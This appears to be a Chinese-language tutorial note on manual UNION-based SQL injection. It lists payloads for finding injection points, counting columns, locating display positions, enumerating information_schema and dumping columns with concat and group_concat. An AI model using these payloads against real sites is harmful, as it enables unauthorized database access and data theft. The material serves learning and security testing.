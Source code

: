 - 前提:页面必须要有`显示位`

- 流程:

- ```sql
  //判断注入点
  1 and 1=1 --+	//整型注入点
  1 and 1=2 --+ 	//整型注入点
  1'or '1'='1		//字符型注入点
  1'or '1'='2		//字符型注入点
  
  //判断列数,使用order by判断字段数(二分法)
  1'order by 1 --+ 
  1'order by n --+
  1'or 1=1 order by n --+ 
  
  //将多条查询语句结果合并成一个结果集
  查询语句1
  union
  查询语句2
  union
  查询语句3
  
  //判断显示位
  1'union select 1,2 --+
  -1'union select 1,2 --+		//使用-1来使union前半语句无查询返回值
  
  //查看数据库信息
  user()	//返回当前使用数据库的用户
  version() //返回当前数据库版本
  database() //返回当前使用的数据库名字
  
  //查看表及列名(系统内置数据库information_schema存储其它所有数据库信息)
  schema表:存放所有数据库中的表信息
  tables表:存储数据库中的表信息
  columns表:存储数据库中的列信息,包括表有多少列
  
  //显示所有数据库的信息并显示数据库名
  -1'union select schema_name,2 from information_schema.schemata --+
  
  -1'union select database(),2#
  
  //获取数据库为 liuyanban 的所有信息并显示表名
  -1'union select table_name,column_name from information_schema.tables where table_schema='liuyanban' --+
  
  //选取数据库为 liuyanban 表为 liuyan 的所有字段并显示表名和字段名
  -1'union select table_name,column_name from information_schema.columns where table_schema='liuyanban' and table_name='liuyan' --+
  ```

- 字符串拼接

- ```sql
  //concat(),将多个字符串链接成为一个字符串
  -1'union select 1,concat(id,email_id),3 from emails --+
  
  //concat_ws(),将多个字符串连接成一个字符串,可以指定分割符
  -1'union select 1,concat_ws('_',id,email_id),3 from emails --+
  
  //group_concat(),将多行结果连接成一组
  -1'union select 1,group_concat(email_id),3 from emails --+
  ```
